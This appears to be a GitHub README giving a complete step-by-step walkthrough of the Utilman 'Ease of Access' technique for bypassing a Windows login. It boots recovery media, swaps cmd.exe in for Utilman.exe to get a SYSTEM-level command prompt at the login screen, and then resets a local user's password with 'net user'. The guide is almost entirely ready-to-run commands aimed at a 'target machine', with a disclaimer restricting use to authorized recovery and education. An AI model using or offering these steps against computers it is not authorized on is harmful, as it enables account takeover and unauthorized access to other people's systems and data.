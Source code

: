 ✅ Utilman Method – Bypass Windows Password

# 🧰 Bypass Windows Password Using Utilman (`Ease of Access` Exploit)

This method involves replacing `Utilman.exe` (Ease of Access utility) with `cmd.exe`. At the login screen, clicking the **Accessibility icon** launches a system-level Command Prompt instead, which can be used to reset any local user password.

> ⚠️ For educational and authorized system recovery only.

---

## 🛠️ Requirements

- Physical access to the target machine
- Windows installation or recovery media (USB/DVD)

---

## 🚀 Steps to Bypass Password Using Utilman

### 1️⃣ Boot Into Recovery Environment

1. Insert a Windows bootable USB/DVD.
2. Restart the PC and boot into the media.
3. On the setup screen, press `Shift + F10` to open **Command Prompt**.

---

### 2️⃣ Backup the Original Utilman

```cmd
copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exebak
````

✔️ This step saves a backup copy for restoration later.

---

### 3️⃣ Replace Utilman With Command Prompt

```cmd
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe /y
```

✔️ This will make CMD open when the Accessibility icon is clicked at login.

---

### 4️⃣ Restart and Launch CMD From Login Screen

1. Close all windows and restart the computer.
2. On the Windows login screen, click the **Accessibility (☰)** icon in the bottom-right.

✅ A system-level Command Prompt will open.

---

### 5️⃣ Reset the Password

1. List admin users:

   ```cmd
   net localgroup administrators
   ```

2. Reset the password of the target user:

   ```cmd
   net user <username> *
   ```

Replace `<username>` with the actual account name. You'll be prompted to enter a new password.

---

### 6️⃣ Log In With the New Password

* Close CMD and log in to Windows using the newly set password.

---

### 7️⃣ Restore Original Utilman (Recommended)

After logging in successfully, open CMD and run:

```cmd
copy C:\Windows\System32\Utilman.exebak C:\Windows\System32\Utilman.exe /y
```

✅ This restores the original Ease of Access tool.

---

## ⚠️ Important Notes

* Will not work if the drive is BitLocker encrypted.
* CMD launched this way runs with SYSTEM privileges — use responsibly.
* Always back up system files before replacing.

---

## 🛡️ Legal Disclaimer

This method is for:

* Ethical hacking education
* System recovery for authorized users
* Security awareness and training

❌ Do not use for unauthorized access. Misuse is illegal.

---

🔐 *Recover responsibly. Hack ethically.*

```
